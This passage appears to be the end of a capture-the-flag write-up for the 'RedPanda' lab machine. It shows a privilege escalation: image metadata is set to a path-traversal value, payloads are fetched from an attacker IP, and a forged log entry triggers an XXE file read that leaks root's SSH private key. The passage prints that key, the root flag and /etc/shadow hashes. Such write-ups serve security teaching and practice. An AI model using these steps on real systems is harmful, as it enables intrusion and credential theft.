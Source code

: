 Next, change the metadata of a random image:
```bash
➜  redpanda exiftool -Artist="../dev/shm/pwn" e.jpg
➜  redpanda exiftool e.jpg | grep Artist
Artist                          : ../dev/shm/pwn
```

Upload the xml and image to the victim, and write your path traversal in `redpanda.log`. Wait for maximum two minutes until the jar is executed again and the xml-file should now contain the content of root `id_rsa`. 
```bash
woodenk@redpanda:/dev/shm$ wget http://10.10.14.6:8888/pwn_creds.xml
woodenk@redpanda:/dev/shm$ wget http://10.10.14.6:8888/e.jpg
woodenk@redpanda:/dev/shm$ echo "200||IP-ADDR||USERAGENT||/../../../../../../dev/shm/e.jpg" > /opt/panda_search/redpanda.log

woodenk@redpanda:/dev/shm$ cat pwn_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>pwn</author>
  <image>
    <uri>/../../../../../../dev/shm/e.jpg</uri>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
    <views>1</views>
  </image>
  <totalviews>1</totalviews>
</credits>

```

Write to file, login and win.
```bash
➜  redpanda vim root-id_rsa
➜  redpanda chmod 400 root-id_rsa 
➜  redpanda ssh root@redpanda.htb -i root-id_rsa

root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)

root@redpanda:~# cat root.txt 
84d3faba94901c92ecd00838f38ef288

root@redpanda:~# cat /etc/shadow
root:$6$HYdGmG45Ye119KMJ$XKsSsbWxGmfYk38VaKlJkaLomoPUzkL/l4XNJN3PuXYAYebnSz628ii4VLWfEuPShcAEpQRjhl.vi0MrJAC8x0:19157:0:99999:7:::
woodenk:$6$48BoRAl2LvBK8Zth$vpJzroFTUyQRA/UQKu64uzNF6L7pceYAe.B14kmSgvKCvjTm6Iu/hSEZTTT8EFbGKNIbT3e2ox3qqK/MJRJIJ1:19157:0:99999:7:::
```


## References
- [PortSwigger - XXE](https://portswigger.net/web-security/xxe)
- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java) 

